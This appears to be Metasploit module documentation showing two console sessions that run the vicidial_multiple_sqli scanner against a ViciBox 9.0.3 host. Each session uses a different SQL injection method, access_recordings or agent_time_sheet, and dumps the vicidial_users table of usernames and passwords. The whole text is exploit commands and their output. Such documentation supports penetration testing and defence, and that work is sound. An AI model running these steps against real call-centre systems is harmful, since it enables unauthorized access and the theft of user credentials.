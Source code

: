 ### ViciBox 9.0.3 - List Users - access_recordings method

```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - access_recordings method
action => List Users - access_recordings method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### ViciBox 9.0.3 - List Users - agent_time_sheet method

```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - agent_time_sheet method
action => List Users - agent_time_sheet method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
